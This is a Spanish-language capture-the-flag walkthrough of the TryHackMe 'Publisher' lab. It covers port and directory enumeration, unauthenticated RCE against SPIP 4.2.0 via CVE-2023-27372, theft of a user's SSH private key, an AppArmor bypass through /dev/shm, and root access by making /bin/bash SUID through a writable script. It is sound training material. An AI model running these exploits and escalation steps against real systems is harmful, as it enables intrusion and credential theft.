




# Publisher TryHackMe

La máquina Publisher es un laboratorio orientado a poner a prueba las habilidades de enumeración profunda, análisis de servicios y escalamiento de privilegios en entornos restringidos.

En este escenario nos enfrentamos a un sistema que expone múltiples servicios aparentemente comunes, pero cuya verdadera complejidad radica en la correcta interpretación de la superficie de ataque.

## Enumeración
Primero realizamos un escaneo con Nmap para identificar los puertos abiertos en la maquina victima, con el objetivo de ampliar la superficie de ataque 
```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.82.185.87 -oG allPorts
```
Al ejecutar este comando le estamos indicando lo siguiente:

Las flags que configuramos en nmap son:  
* -p- Nos indica que se escanearan los 65535 puertos de Nmap
* --open Con esta flag filtramos por unicamente los puertos abiertos 
* -sS un escaneo de tipo SYN / SCAN 
* --min-rate 5000 Indicamos que seran un minimo de 5000 paquetes por segundo por lo que sera un escaneo rapido 
* -n No aplicara resolucion DNS puesto que para esta maquina no es necesario
* -Pn No realiza un ping antes de la conexion, nmap da por hecho que el host se encuentra activo 
* -vvv Los resultados los muestre en pantalla conforme los encuentre
* -oG Exporte los resultados que nos arroja en terminal a un formato Grepeable para poder procesarlo posteriormente de manera rapida 

Este comando nos arrojara como resultado lo siguiente 
```bash
┌──(pirata㉿kali)-[~/CTF/THM/Publisher]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.82.185.87 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 19:59 CST
Initiating SYN Stealth Scan at 19:59
Scanning 10.82.185.87 [65535 ports]
Discovered open port 22/tcp on 10.82.185.87
Discovered open port 80/tcp on 10.82.185.87
Completed SYN Stealth Scan at 19:59, 14.63s elapsed (65535 total ports)
Nmap scan report for 10.82.185.87
Host is up, received user-set (0.16s latency).
Scanned at 2026-02-22 19:59:33 CST for 15s
Not shown: 65521 closed tcp ports (reset), 12 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 61

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.70 seconds
           Raw packets sent: 71690 (3.154MB) | Rcvd: 70946 (2.838MB)
```
En este escaneo ya podemos observar que encuentra 2 puertos abiertos
* Puerto 22: Con un servicio SSH
* Puerto 80: El mas comun para servicios HTTP

Ahora lanzamos un escaneo que nos permita identificar los servicios en ejecucion en los puertos que ya identificamos 
```bash
sudo nmap -p22,80 -sCV 10.82.185.87 -oN targeted
```
Y nos dara como resultado lo siguiente 
```bash
┌──(pirata㉿kali)-[~/CTF/THM/Publisher]
└─$ sudo nmap -p22,80 -sCV 10.82.185.87 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 20:01 CST
Nmap scan report for 10.82.185.87
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:9d:f2:46:cb:28:4c:26:38:d5:64:62:4c:cd:cd:00 (RSA)
|   256 90:65:bb:28:93:7f:b6:df:2c:16:12:2b:82:11:b7:d5 (ECDSA)
|_  256 a5:ca:35:b8:23:32:3f:7b:7c:a4:94:39:99:35:58:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.48 seconds
```
Ya comenzamos a notar información relevante en el resultado de Nmap, veamos 
* SSH-HOSTKEY: Son las claves publicas del servidor SSH usadas para verificar la identidad del servidor y establecer conexiones cifradas, veamos que significa cada parte:
3072 / 256:Tamaño de la clave en Bits
RSA / ECDSA /ED25519: Algortimos criptograficos soportados 
Huella digital (fingerprint): Identificador unico de la clave 

Esta información nos es de utilidad para comparar y estar seguros que siempre estamos apuntando al mismo host o comparar con otras maquinas para hacer pivoting 

* En el puerto 80 podemos identificar que se esta ejecutando un servidor web Apache HTTPD 2.4.41 y ya nos menciona la palabra SPIP, si accedemos al sitio web, podremos ver la siguiente pagina 



Como podemos observar hace mucha mencion al CMS llamado SPIP, en este CMS los directorios que debemos buscar siempre son:
* /ecrire/ : Panel de adminsitración del SPIP, podemos probar tecnicas como: acceso directo, Login admin, Enumeración de la version exacta, exploit conocidos, etc. Es el objetivo No.1 en SPIP ya que ha llegado a ser vulnerable a RCE, Auth Bypass, File Upload y SQLi
* /spip.php : Es el front Controller de SPIP, podemos probar: parametros GET manipulables, y payloads RCE conocidos
* /spip/ Archivos Base del CMS, podemos buscar: acceso a archivos php, includes mal configurados, version disclosure 

Otros directorios que podemos probar pero mas orientados a los contenidos y archivos son:
* /IMG/ : Aqui podemos encontrar archivos cargados, backups, etc.
* /IMG/tmp : Archivos temporales como payloads generados, archivos parcialmente subidos 
* /local/ : Configuraciones locales, aqui podemos apuntar a: plugins personalizados, codigo vulnerable, backdoors, etc.
* /plugins/ : Podemos encontrar todos los puglins instalados, ya sea desactualizados, vulnerables o algunos que cuente con vulnerabilidad de upload o RCE

Y tambien podemos buscar archivos de configuración en los siguientes directorios
* /config/ : configuraciones internas, credenciales expuestas, etc.
* /config/connect.php : Puede contener las credenciales de la BD en texto plano 

Comenzamos realizando un fuzzing al sitio web con la intencion de lograr identificar alguno de estos directorios de interes, esto con la herramineta gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.82.185.87/
```

Como podemos observar en los resultados del fuzzing identifiamos una carpeta nombrada SPIP, por lo que ya podemos plantearnos ¿Es esta la carpeta raiz del CMS?
```bash
┌──(pirata㉿kali)-[~/CTF/THM/Publisher]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.82.185.87/                                
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.82.185.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.82.185.87/images/]
/server-status        (Status: 403) [Size: 277]
/spip                 (Status: 301) [Size: 311] [--> http://10.82.185.87/spip/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
Si accedemos a la carpeta /SPIP/ dentro del sitio web nos podremos percatar de los siguiente 



Ahora podemos empezar a probar con cada uno de los directorios que sabemos que son de interes en este tipo de CMS, comenzamos con la ruta /spip/local que nos ayudara a identificar la version de SPIP en su archivo de configuración, al acceder al sitio podemos ver que podemos listar el directorio 


Si abrimos el archivo config.txt podremos observar que hemos obtenido a version del CMS, ya que dentro de el encontraremos 
```bash
Composed-By: SPIP @ www.spip.net + spip(4.2.0),aide(3.1.0),archiviste(2.2.0),compagnon(3.1.0),dump(2.1.0),images(4.1.0),forum(3.1.0),mediabox(3.1.0),mots(4.1.0),plan(4.1.0),porte_plume(3.1.1),revisions(3.1.0),safehtml(3.1.0),sites(4.1.0),stats(3.1.1),tw(3.1.1),urls(4.1.0),iterateurs(1.0.6),queue(0.6.8),jquery(3.6.3),csstidy(1.15.1),minidoc(1.0.3),ordoc(1.1.2),mejs(4.2.7),bigup(3.2.1),compresseur(2.1.1),medias(4.1.0),svp(3.1.1)
```
Como sabemos que tenemos la version 4.2.0 de SPIP se investiga si existe alguna vulnerabilidad y exploit para esa version en especifico y asi es como llegamos a la siguiente vulnerabilidad:
- CVE 2023-27372 Remote Code Execution Unauthenticated
- URL donde se presenta la vulnerabilidad http://10.82.185.87/spip/spip.php?page=spip_pass&lang=fr
- Tipo: PHP Object Injection -> RCE
- Autenticación: No se Requiere
- Vector: Formulario "Forgot Password" de spip 
- Parametro Vulnerable: oubli 

## FootHold

SPIP usa formularios serializados en PHP, el parametro oubli se deserealiza sin validar, permitiendo inyectar <?php SYSTEM_COMMAND ?>El exploit no sube archivos, no requiere login, no requiere LFI previo. Podemos encontrar un repositorio con un exploit que nos permite enviar el comando y obtener la reverse shell https://github.com/Chocapikk/CVE-2023-27372/tree/main

Para poder ejecutar el exploit lo clonamos y posteriormente creamos un venv con python para ejecutarlo 
```bash
┌──(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ python3 -m venv venv
```

```bash
┌──(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ source venv/bin/activate 
```

Ejecutamos el exploit y tendremos la reverse shell 
```bash
┌──(venv)─(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ python3 CVE-2023-27372.py -u http://10.82.185.87/spip/
[+] The URL http://10.82.185.87/spip/ is vulnerable
[!] Shell is ready, please type your commands UwU
# whoami

www-data

# 
```

Ahora mismo estamos operando desde una shell restringida, por lo que podemos enumerar las llaves SSH para poder obtener una mejor shell
```bash
# ls -la /home/think/.ssh

total 20
drwxr-xr-x 2 think think 4096 Jan 10  2024 .
drwxr-xr-x 8 think think 4096 Feb 10  2024 ..
-rw-r--r-- 1 root  root   569 Jan 10  2024 authorized_keys
-rw-r--r-- 1 think think 2602 Jan 10  2024 id_rsa
-rw-r--r-- 1 think think  569 Jan 10  2024 id_rsa.pub

# 
```
Creamos una copia encodeada en base64 para asegurar la integridad en la transferencia 

```bash
# base64 /home/think/.ssh/id_rsa > id_rsa_tmp


# 
```

Ahora accedemos al archivo que creamos desde el navegador y veremos nuestra llave SSH


Descargamos la llave, la decodificamos con base64 y le asignamos permisos 700 para poder hacer uso de ella, ya que si no, nos arrojara error por que no debe tener privilegios para otros usuarios o externos 

```bash
──(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ wget http://10.82.185.87/spip/id_rsa_tmp                                     
--2026-02-22 20:31:31--  http://10.82.185.87/spip/id_rsa_tmp
Conectando con 10.82.185.87:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3518 (3.4K)
Grabando a: «id_rsa_tmp»

id_rsa_tmp                            100%[======================================================================>]   3.44K  --.-KB/s    en 0s      

2026-02-22 20:31:32 (220 MB/s) - «id_rsa_tmp» guardado [3518/3518]

                                                                                                                                                     
┌──(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ base64 -d id_rsa_tmp > id_rsa
                                                                                                                                                     
┌──(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ chmod 700 id_rsa

```

Y nos conectamos via SSH
```bash
┌──(pirata㉿kali)-[~/CTF/THM/Publisher/CVE-2023-27372]
└─$ ssh think@10.82.185.87 -i id_rsa
The authenticity of host '10.82.185.87 (10.82.185.87)' can't be established.
ED25519 key fingerprint is SHA256:sVKZSOzSGBTKXaDkQ4gXMfdgRLa7E85Sp3xCOS9v+oc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.82.185.87' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 23 Feb 2026 02:34:00 AM UTC

  System load:  0.16              Processes:             122
  Usage of /:   76.7% of 9.75GB   Users logged in:       0
  Memory usage: 15%               IPv4 address for eth0: 10.82.185.87
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Mon Feb 12 20:24:07 2024 from
think@ip-10-82-185-87:~$
```
Por lo que ahora podremos operar comodamente desde una shell SSH.
NOTA. Si seguimos explorando con la shell que obtuvimos con el uso del exploit nos dirigira a un contenedor que no cuenta con muchos vectores para el escalado 

Ahora podremos leer la flag 
```bash
think@ip-10-82-185-87:~$ cat user.txt 
CENSORED   
think@ip-10-82-185-87:~$
```

## Escalado de Privilegios 

Realizamos una busqueda de binarios con privilegios SUID y veremos los siguientes 
```bash
think@ip-10-82-185-87:/$ find \-perm -4000 2>/dev/null 
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/sbin/pppd
./usr/sbin/run_container
./usr/bin/at
./usr/bin/fusermount
./usr/bin/gpasswd
./usr/bin/chfn
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/mount
./usr/bin/su
./usr/bin/newgrp
./usr/bin/pkexec
./usr/bin/umount
think@ip-10-82-185-87:/$
```

En este caso en especifico vemos un binario que no es muy comun y ese es run_container, si verificamos su contenido con strings veremos que ejecuta un script llamado /opt/run_container.sh
```bash
think@ip-10-82-185-87:/$ strings ./usr/sbin/run_container
/lib64/ld-linux-x86-64.so.2
libc.so.6
__stack_chk_fail
execve
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
/bin/bash
/opt/run_container.sh
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c

```
Procedemos a verificar los permisos del archivo y si es posible modificarlo, pero nos daremos cuenta que a pesar de que tiene privilegios de escritura para otros, sucede algo curioso, no se pueden guardar los cambios como si estuviera restringido 
```bash
think@ip-10-82-185-87:/$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
think@ip-10-82-185-87:/$ 
```

En linux hay archivos que nos se pueden modificar incluso con privilegios 777, si tiene el flag inmutable, lo comprobamos 
```bash
think@ip-10-82-185-87:/$ lsattr /opt/run_container.sh
--------------e----- /opt/run_container.sh
think@ip-10-82-185-87:/$
```
Este "e" indica SELinux / AppArmor / LSM activo y esta bloqueando la ejecución del script aunque tenga 777 

Primero descartemos que SELinux esta activo
```bash
think@ip-10-82-185-87:/$ ls -Z /opt/run_container.sh
? /opt/run_container.sh
think@ip-10-82-185-87:/$
```

Con este resultado, descartamos que SELinux este activo ¿Por que? Cuando aparece "?" significa que:
- El kernel no tiene SELinux habilitado 
- El FileSystem no soporta etiquetas SELinux 
- SELinux no esta en uso absoluto 
Si SELinux estuviera activo veriamos algo similar a system_u:object_r:bin_t:s0

Ahora solo nos queda comprobar que es AppArmor lo que esta bloqueando la ejecucion de los comandos 

```bash
think@ip-10-82-185-87:/$ cat /proc/self/attr/current
/usr/sbin/ash (complain)
think@ip-10-82-185-87:/$ aa-status
apparmor module is loaded.
You do not have enough privilege to read the profile set.
think@ip-10-82-185-87:/$ 
```

Cuando nos muestra /usr/sbin/ash (complain) esto nos indica que:
- AppArmor SÍ está activo
- La Shell ash esta en modo complain 
- No esta bloqueada solo esta registrando las violaciones 

Cuando hay complain mode:
- AppArmor no impide acciones, solo loggea los intentos 

Aun con esto leemos las politicas de AppArmor 
```bash
think@ip-10-82-185-87:/$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
think@ip-10-82-185-87:/$ 
```
Esto nos indica que
- No podemos leer ni escribir dentro de /opt/
- A pesar de que AppArmor este en complain si esta aplicando politicas sobre los directorios 

Pero tambien tenemos una seccion de reglas que nos son de utilidad 
```bash
/usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
```
Significado de las flags
- m: Memory Map 
- r: Read
- i: inherit profile
- x: Execute
por lo que podemos ejecutar CUALQUIER binario del sistema

Como solo tenemos los directors /usr/bin para ejecucion de binarios del sistema, cambiamos la shell para ahi para ejecutarla 
```bash
think@ip-10-82-185-87:/$ /usr/bin/find . -exec /bin/bash -p \; -quit
think@ip-10-82-185-87:/$ cp /bin/bash /dev
cp: cannot create regular file '/dev/bash': Permission denied
think@ip-10-82-185-87:/$ cp /bin/bash /dev/shm/
think@ip-10-82-185-87:/$ /dev/shm/bash -p
think@ip-10-82-185-87:/$ ls /opt/
containerd  dockerfile  run_container.sh
```
Con el comando /usr/bin/find . -exec /bin/bash -p \; -quit:
- Estamos usando Find como wrapper para ejecutar bash, intentando evadir restricciones del perfil que afectan a ash

Luego ejecutamos cp /bin/bash /dev/shm/ por que /dev/shm es un file system en memoria (tmpfs) generalmente escribible

Y Finalmente /dev/shm/bash -p por que AppArmor restringe la ejecucion en ciertos paths. Esto es una técnica clásica de bypass por path-based confinement.

Agregamos la siguiente linea al inicio del run_container.sh
```bash
chmod u+s /bin/bash
```

Ejecutamos el binario 
```bash
think@ip-10-82-185-87:/$ ./usr/sbin/run_container 
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up About an hour

Enter the ID of the container or leave blank to create a new one: 
/opt/run_container.sh: line 18: validate_container_id: command not found

OPTIONS:
1) Start Container
2) Stop Container
3) Restart Container
4) Create Container
5) Quit
Choose an action for a container: 

```

Listamos privilegios de la bash y veremos que ya podremos lanzarnos una bash privilegiada y seremos root 

```bash
think@ip-10-82-185-87:/$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
think@ip-10-82-185-87:/$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
CENSORED  
bash-5.0# 

```
